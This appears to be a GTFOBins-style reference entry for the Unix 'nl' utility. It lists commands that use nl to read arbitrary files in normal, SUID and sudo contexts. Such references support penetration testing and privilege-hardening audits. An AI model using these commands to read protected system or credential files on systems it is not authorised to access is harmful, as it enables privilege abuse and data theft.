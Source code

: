 ```yaml
---
name: nl
description: The read file content is corrupted by a leading space added to each line.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nl -bn -w1 -s '' $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./nl -bn -w1 -s '' $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nl -bn -w1 -s '' $LFILE
---
```

